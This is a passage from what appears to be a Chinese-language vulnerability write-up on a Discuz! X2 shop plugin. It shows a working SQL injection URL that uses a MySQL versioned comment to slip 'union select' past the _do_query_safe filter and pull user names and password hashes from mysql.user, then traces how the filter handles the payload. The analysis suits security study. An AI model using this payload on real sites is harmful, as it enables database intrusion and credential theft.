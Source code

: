 ￼![enter image description here](img/img4_u134_png.jpg)

因为我们的 url 中出现了 union select，所以会被过滤掉。

#### 绕过方法

这里利用 Mysql 的一个特性绕过 _do_query_safe 函数过滤，提交如下 url：

```
http://localhost/discuzx2/plugin.php?id=v63shop:goods&pac=info&gid=1 and 1=2 union /*!50000select*/ 1,2,3,4,5,6,concat(user,0x23,password),8,9,10,11,12,13 from mysql.user 
```

这里我们跟踪一下，绕过的具体过程。它会将/**/中间的内容去掉，然后保存在$clean 变量中，其值为

```
select * from pre_v63_goods where `id` =1 and 1=2 union /**/ 1,2,3,4,5,6,concat(user,0x23,password),8,9,10,11,12,13 from mysql.user 
```

再进一步跟踪，它会将`/**/`也去掉，然对$clean 变量做过滤，如图所示

![enter image description here](img/img5_u97_png.jpg) ￼ 此时$clean 值，如图所示 ￼ ![enter image description here](img/img6_u117_png.jpg)
